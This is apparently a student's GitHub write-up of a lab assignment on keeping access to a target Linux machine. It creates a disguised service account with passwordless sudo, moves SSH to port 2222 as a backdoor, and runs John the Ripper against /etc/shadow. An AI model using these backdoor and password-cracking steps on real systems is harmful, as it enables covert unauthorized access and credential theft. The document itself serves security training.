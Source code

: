# Advanced_Bash
Accomplishing the goal of maintaining access of a target machine by installing a backdoor.

**Goal:** 

To maintain access to the target machine by installing a backdoor. You will then use the backdoor to crack sensitive passwords.
To complete this assignment, you must complete the steps below.

## Step 1: Shadow People

Create a "secret" user named _sysd_. Anyone examining _/etc/passwd_ will assume this is a service account, but in fact, you'll be using it to reconnect to the target machine for further exploitation.

1. Create a secret user named sysd. Make sure this user doesn't have a home folder created:

**adduser --system --no-create-home sysd**

![name-of-you-image](https://github.com/ldover29/Advanced_Bash/blob/a5ca22e065dbd3071b155b1fb557e9ff49bd6103/Images/Step%201%201.jpg)

2. Give your secret user a password:

**passwd sysd**

![name-of-you-image](https://github.com/ldover29/Advanced_Bash/blob/a5ca22e065dbd3071b155b1fb557e9ff49bd6103/Images/Step%201%202.jpg)

3. Give your secret user a system UID < 1000:

**usermod -u 50 sysd**

![name-of-you-image](https://github.com/ldover29/Advanced_Bash/blob/a5ca22e065dbd3071b155b1fb557e9ff49bd6103/Images/Step%201%203.jpg)

4. Give your secret user the same GID:

**usermod -u 50 -g 50 sysd**

![name-of-you-image](https://github.com/ldover29/Advanced_Bash/blob/fee97db46fe2f7011c9efab9fbdb761bf6883380/Images/Step%201%204.jpg)

5. Give your secret user full sudo access without the need for a password:

**sysd ALL=(ALL) NOPASSWD:ALL**

![name-of-you-image](https://github.com/ldover29/Advanced_Bash/blob/fee97db46fe2f7011c9efab9fbdb761bf6883380/Images/Step%201%205.jpg)

6. Test that sudo access works without your password:

**sudo -l**

![name-of-you-image](https://github.com/ldover29/Advanced_Bash/blob/fee97db46fe2f7011c9efab9fbdb761bf6883380/Images/Step%201%206a.jpg)

**sudo adduser --system --no-create-home test**

![name-of-you-image](https://github.com/ldover29/Advanced_Bash/blob/fee97db46fe2f7011c9efab9fbdb761bf6883380/Images/Step%201%206b.jpg)

## Step 2: Smooth Sailing

In this step, you'll allow SSH access via port 2222.

1. Edit the sshd_config file:

**Port 2222**

![name-of-you-image](https://github.com/ldover29/Advanced_Bash/blob/ae429b36a07874e83e0d2a3d031607d192c15fa9/Images/Step%202%201.jpg)

## Step 3: Testing Your Configuration Update

Test your solution by testing the new backdoor SSH port. Do the following steps on the target machine:

1. Restart the SSH service:

**systemctl reload sshd**

2. Exit the root account:

**exit**

3. SSH to the target machine using your sysd account and port 2222:

**ssh sysd@192.168.6.105 -p 2222**

![name-of-you-image](https://github.com/ldover29/Advanced_Bash/blob/ae429b36a07874e83e0d2a3d031607d192c15fa9/Images/Step%203%20123.jpg)

4. Use sudo to switch to the root user:

**sudo su**

![name-of-you-image](https://github.com/ldover29/Advanced_Bash/blob/ae429b36a07874e83e0d2a3d031607d192c15fa9/Images/Step%203%204.jpg)

## Step 4: Crack All the Passwords

Next, to strengthen our control of this system, we will attempt to crack as many passwords as we can.

Having access to all the accounts will also allow us to access the system if our other backdoors are closed.

1. SSH back to the system using your sysd account and port 2222:

**ssh sysd@192.168.6.105 -p 2222**

2. Escalate your privileges to the root user. Use John to crack the entire /etc/shadow file:

**sudo su**
**john /etc/shadow**

![name-of-you-image](https://github.com/ldover29/Advanced_Bash/blob/ae429b36a07874e83e0d2a3d031607d192c15fa9/Images/Step%204%202.jpg)

Passwords:

![name-of-you-image](https://github.com/ldover29/Advanced_Bash/blob/ae429b36a07874e83e0d2a3d031607d192c15fa9/Images/Step%204%202b.jpg)

